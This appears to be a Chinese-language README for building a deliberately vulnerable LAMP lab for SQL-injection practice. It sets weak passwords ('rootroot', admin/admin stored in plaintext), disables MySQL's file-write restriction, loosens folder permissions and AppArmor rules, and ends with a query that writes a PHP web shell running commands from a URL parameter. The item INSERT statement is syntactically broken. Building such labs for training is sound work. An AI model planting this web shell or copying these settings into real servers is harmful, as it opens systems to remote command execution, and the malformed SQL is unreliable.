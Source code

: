 # sql

## 安裝Apache

執行：

$ sudo apt install apache2

檢查Apache是否正常運行：

$ sudo systemctl status apache2


## 安裝MySQL
執行

/opt/lampp/bin/mysql -u root

設定MySQL root user的密碼：

sudo mysql_secure_installation

改 root 密碼

ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'rootroot';

### 建db


```
create database  user_db;
use user_db;
```

* 創table item
```
CREATE TABLE `item` (
  `id` int NOT NULL AUTO_INCREMENT,
  `name` varchar(100) NOT NULL,
  `attack` int NOT NULL,
  `defense` int NOT NULL,
  PRIMARY KEY (`id`)
)
```
* item 資料
```
INSERT INTO `item`(`id`, `name`, `attack`, `defense`) VALUES (1,'小李飛刀',100,323),
(`id`, `name`, `attack`, `defense`) VALUES (2,'屠龍刀',200,40),
(`id`, `name`, `attack`, `defense`) VALUES (3,'桃園盾',20,500),
(`id`, `name`, `attack`, `defense`) VALUES (4,'倚天劍',100,100),
(`id`, `name`, `attack`, `defense`) VALUES (5,'晨星虎斧',318,407),
(`id`, `name`, `attack`, `defense`) VALUES (6,'封魔流星破',247,50),
(`id`, `name`, `attack`, `defense`) VALUES (7,'霸虎風魔斬',469,54),
(`id`, `name`, `attack`, `defense`) VALUES (8,'修羅鬼噬爪',464,415),
(`id`, `name`, `attack`, `defense`) VALUES (9,'鬼噬日暮滅',327,401),
(`id`, `name`, `attack`, `defense`) VALUES (10,'洪流鳳火舞',378,485),
(`id`, `name`, `attack`, `defense`) VALUES (100,'彥宇大悲咒',2000,0);
```

* 創table user_table

```
CREATE TABLE `user_table` (
  `user_id` int NOT NULL AUTO_INCREMENT,
  `user_name` varchar(40) NOT NULL,
  `user_password` varchar(40) NOT NULL,
  `user_note` varchar(40) NOT NULL,
  PRIMARY KEY (`user_id`)
)
```

* user_table 資料
```

INSERT INTO `user_table`(`user_id`, `user_name`, `user_password`, `user_note`) VALUES(1,'admin','admin','root')
```

## php

```
sudo apt install php libapache2-mod-php php-mysql
```

## 下載 html.zip

放到 /var/www/html

利用  nautilus 改

sql 資料夾 
Owner: www-data   C&D
Group: www-data   C&D
other:            C&D

upfiles 資料夾 
Owner: mysql   C&D
Group: mysql   C&D
other:         C&D

修改outfile問題

SHOW GLOBAL VARIABLES LIKE '%secure%';
sudo find /* -name my.cnf
secure-file-priv = "/"


sudo nano /etc/apparmor.d/local/usr.sbin.mysqld 

/var/www/html/upfiles/ r,
/var/www/html/upfiles/** rw,

sudo apparmor_parser -r /etc/apparmor.d/usr.sbin.mysqld 

mysql -u username -p dbname < dbexport.sql

測試outfile
select 1,2,3,"<?php echo shell_exec($_GET['cmd']) ?>"  from item into outfile "/var/www/html/upfiles/shell.php";
